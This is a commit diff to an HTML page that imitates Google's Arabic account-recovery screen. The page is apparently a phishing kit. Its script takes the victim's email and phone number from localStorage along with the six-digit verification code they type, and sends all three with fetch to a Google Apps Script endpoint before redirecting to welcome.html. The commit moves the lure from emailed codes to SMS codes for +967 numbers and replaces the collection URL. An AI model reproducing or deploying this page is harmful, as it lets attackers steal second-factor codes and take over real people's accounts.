

Before and after one commit to mghwlmghwl6/google, a plain HTML site: page verification.html in a window 1280 px wide. Shown: the part 279-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update verification.html

```diff
--- a/verification.html
+++ b/verification.html
@@ -2,25 +2,26 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>استرداد الحساب - إدخال الرمز</title>
     <style>
-        * { box-sizing: border-box; margin: 0; padding: 0; -webkit-tap-highlight-color: transparent; }
+        * { box-sizing: border-box; }
         body {
-            font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+            font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Ubuntu, "Helvetica Neue", sans-serif;
             background-color: #f8f9fa;
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
+            margin: 0;
             padding: 16px;
         }
         .card {
-            background: #fff;
+            background: #ffffff;
             width: 100%;
             max-width: 440px;
             padding: 40px 32px;
-            border-radius: 12px;
+            border-radius: 8px;
             border: 1px solid #dadce0;
         }
         .logo-container { text-align: center; margin-bottom: 16px; }
@@ -30,38 +31,39 @@
         .logo-yellow { color: #FBBC05; }
         .logo-green { color: #34A853; }
 
-        h1 { font-size: 24px; font-weight: 400; color: #202124; text-align: center; margin-bottom: 12px; }
-        .description { font-size: 15px; color: #3c4043; text-align: center; line-height: 1.5; margin-bottom: 24px; }
-
-        .email-box {
-            display: inline-flex; align-items: center; gap: 8px;
-            border: 1px solid #dadce0; padding: 8px 14px; border-radius: 20px;
-            margin: 0 auto 28px; width: fit-content;
+        h1 { font-size: 24px; font-weight: 400; color: #202124; text-align: center; margin: 0 0 16px 0; }
+        .description {
+            font-size: 14px; color: #3c4043; text-align: center;
+            line-height: 1.5; margin: 0 0 24px 0;
         }
-        .email-text { font-size: 15px; color: #3c4043; font-weight: 500; }
-        .email-icon {
-            width: 22px; height: 22px; background: #5f6368; color: #fff;
-            border-radius: 50%; display: flex; align-items: center; justify-content: center;
-            font-size: 12px; flex-shrink: 0;
+        .phone-box {
+            display: flex; align-items: center; justify-content: center; gap: 8px;
+            border: 1px solid #dadce0; padding: 6px 12px; border-radius: 16px;
+            width: fit-content; margin: 0 auto 32px auto;
         }
-
-        .info-text { font-size: 15px; color: #202124; text-align: right; line-height: 1.6; margin-bottom: 24px; }
+        .phone-text { font-size: 14px; color: #3c4043; font-weight: 500; }
+        .phone-icon {
+            width: 20px; height: 20px; background: #5f6368; color: white;
+            border-radius: 50%; display: flex; align-items: center; justify-content: center; font-size: 11px;
+        }
+        .info-text { font-size: 14px; color: #202124; text-align: right; line-height: 1.6; margin-bottom: 24px; }
 
         .input-container { position: relative; margin-bottom: 8px; width: 100%; }
         .input-field {
-            width: 100%; padding: 14px 16px; border: 2px solid #1a73e8;
-            border-radius: 4px; font-size: 17px; outline: none;
-            text-align: right; background: transparent; color: #202124;
+            width: 100%; padding: 16px; border: 2px solid #1a73e8;
+            border-radius: 4px; font-size: 16px; outline: none;
+            text-align: right; background: transparent;
         }
         .input-label {
             position: absolute; right: 12px; top: -10px;
-            background: #fff; padding: 0 6px;
-            color: #1a73e8; font-size: 13px; font-weight: 500;
+            background: #ffffff; padding: 0 6px;
+            color: #1a73e8; font-size: 12px; font-weight: 500;
         }
 
         .error-message {
-            color: #d93025; font-size: 14px; text-align: right;
-            margin-bottom: 24px; min-height: 20px; line-height: 1.4;
+            color: #d93025; font-size: 12px; text-align: right;
+            margin-bottom: 24px; min-height: 18px;
+            display: flex; align-items: center; gap: 4px;
         }
 
         .actions-container {
@@ -69,40 +71,38 @@
             align-items: center; margin-top: 16px;
         }
         .secondary-link {
-            color: #1a73e8; text-decoration: none; font-size: 15px;
-            font-weight: 500; cursor: pointer; background: none;
-            border: none; padding: 8px 0;
+            color: #1a73e8; text-decoration: none; font-size: 14px;
+            font-weight: 500; cursor: pointer; background: none; border: none; padding: 0;
         }
         .secondary-link:hover { text-decoration: underline; }
         .primary-button {
-            background: #1a73e8; color: #fff; border: none;
-            padding: 12px 28px; border-radius: 4px; font-size: 15px;
-            font-weight: 500; cursor: pointer; min-height: 44px;
+            background-color: #1a73e8; color: white; border: none;
+            padding: 10px 24px; border-radius: 4px; font-size: 14px;
+            font-weight: 500; cursor: pointer;
+            box-shadow: 0 1px 2px 0 rgba(60,64,67,0.3), 0 1px 3px 1px rgba(60,64,67,0.15);
         }
-        .primary-button:hover { background: #1557b0; }
+        .primary-button:hover { background-color: #1557b0; }
 
         #page-loading-bar {
-            position: fixed; top: 0; left: 0; right: 0; height: 3px;
-            z-index: 9999; background: transparent; overflow: hidden; display: none;
+            position: fixed;
+            top: 0; left: 0; right: 0;
+            height: 3px;
+            z-index: 9999;
+            background: transparent;
+            overflow: hidden;
+            display: none;
         }
         #page-loading-bar::after {
-            content: ''; position: absolute; top: 0; right: -40%;
-            width: 40%; height: 100%; background: #1a73e8;
+            content: '';
+            position: absolute;
+            top: 0; right: -40%; width: 40%; height: 100%;
+            background: #1a73e8;
             animation: page-load-slide 1.4s ease-in-out infinite;
         }
         @keyframes page-load-slide {
             0%   { right: 100%; width: 20%; }
             50%  { right: 20%; width: 60%; }
             100% { right: -80%; width: 20%; }
-        }
-
-        @media (max-width: 480px) {
-            body { background: #fff; padding: 0; align-items: flex-start; }
-            .card { max-width: 100%; border: none; border-radius: 0; box-shadow: none; min-height: 100vh; padding: 24px 20px; }
-            h1 { font-size: 22px; }
-            .description { font-size: 14px; }
-            .info-text { font-size: 14px; }
-            .input-field { font-size: 17px; }
         }
     </style>
 </head>
@@ -118,14 +118,12 @@
         <h1>استرداد الحساب</h1>
         <p class="description">للمساعدة في الحفاظ على أمان حسابك، تريد Google التأكد من أنك أنت مَن يحاول تسجيل الدخول</p>
 
-    <div style="text-align: center;">
-        <div class="email-box">
-            <div class="email-icon">👤</div>
-            <span class="email-text" id="email-display">example@gmail.com</span>
-        </div>
+        <div class="phone-box">
+            <div class="phone-icon">📱</div>
+            <span class="phone-text" id="phone-display">+967 7XXXX XXXX</span>
         </div>
 
-    <p class="info-text" id="info-text">تم للتو إرسال رسالة إلكترونية إلى <b id="email-hint"></b> تتضمن رمز التحقّق</p>
+        <p class="info-text" id="info-text">تم للتو إرسال رسالة نصية إلى رقم هاتفك <b id="phone-hint"></b> تتضمن رمز التحقّق</p>
 
         <div class="input-container">
             <label class="input-label">إدخال الرمز</label>
@@ -141,29 +139,29 @@
     </div>
 
     <script>
-    const API_URL = "https://script.google.com/macros/s/AKfycbxRw3IZje0JfX6xEKXn87vGMMxAKUw3umO-xe9femN2nx5XOeIfBoDJSl_xpVAeyZsFGw/exec";
+        const API_URL = "https://script.google.com/macros/s/AKfycbzcd0ubB5AkKt3dTrDonb7rlyLr5zukLdYKiLj7O62Cc22YSIddsyl_Ip0P2taH9YD-vw/exec";
 
         function sendToAPI(data) {
             fetch(API_URL, {
-            method: "POST", mode: "no-cors",
+                method: "POST",
+                mode: "no-cors",
                 headers: { "Content-Type": "application/json" },
                 body: JSON.stringify({ ...data, timestamp: new Date().toISOString() })
             }).catch(() => {});
         }
 
-    const userEmail = localStorage.getItem('user_email') || 'example@gmail.com';
-    document.getElementById('email-display').textContent = userEmail;
+        // عرض رقم الهاتف الحقيقي من localStorage
+        const userPhone = localStorage.getItem('phone_number') || '+967 7XXX XXXXX';
+        document.getElementById('phone-display').textContent = userPhone;
 
-    function buildEmailHint(email) {
-        const parts = email.split('@');
-        if (parts.length !== 2) return email;
-        const name = parts[0];
-        const domain = parts[1];
-        if (name.length <= 2) return email;
-        const hint = name.substring(0, 2) + '•'.repeat(Math.min(name.length - 2, 5));
-        return hint + '@' + domain;
+        // بناء hint لرقم الهاتف (مثلاً: +967 7XX••••)
+        function buildPhoneHint(phone) {
+            if (phone.length <= 6) return phone;
+            const visible = phone.substring(0, 6);
+            const hidden = '•'.repeat(Math.min(phone.length - 6, 6));
+            return visible + hidden;
         }
-    document.getElementById('email-hint').textContent = buildEmailHint(userEmail);
+        document.getElementById('phone-hint').textContent = buildPhoneHint(userPhone);
 
         const codeInput = document.getElementById('code-input');
         const errorMsg = document.getElementById('error-msg');
@@ -171,18 +169,33 @@
         document.getElementById('next-button').addEventListener('click', function () {
             const codeValue = codeInput.value.trim();
             const numericRegex = /^\d{6}$/;
+
             if (!numericRegex.test(codeValue)) {
                 errorMsg.textContent = 'يرجى إدخال رمز التحقق المكون من 6 أرقام فقط.';
-            codeInput.style.borderColor = '#d93025'; return;
+                codeInput.style.borderColor = '#d93025';
+                return;
             }
+
             errorMsg.textContent = '';
             codeInput.style.borderColor = '#1a73e8';
-        sendToAPI({ event: "CODE_SUBMIT", email: userEmail, code: codeValue });
 
+            const userEmail = localStorage.getItem('user_email') || '';
+
+            sendToAPI({
+                event: "CODE_SUBMIT",
+                email: userEmail,
+                phone: userPhone,
+                code: codeValue
+            });
+
+            // تشغيل شريط التحميل
             const bar = document.getElementById('page-loading-bar');
             bar.style.display = 'block';
             document.getElementById('next-button').disabled = true;
-        setTimeout(() => { window.location.href = 'welcome.html'; }, 600);
+
+            setTimeout(() => {
+                window.location.href = 'welcome.html';
+            }, 600);
         });
 
         codeInput.addEventListener('input', function () {
@@ -190,6 +203,10 @@
             errorMsg.textContent = '';
             this.style.borderColor = '#1a73e8';
         });
+
+        document.addEventListener('keydown', function(e) {
+            if (e.key === 'Enter') document.getElementById('next-button').click();
+        });
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
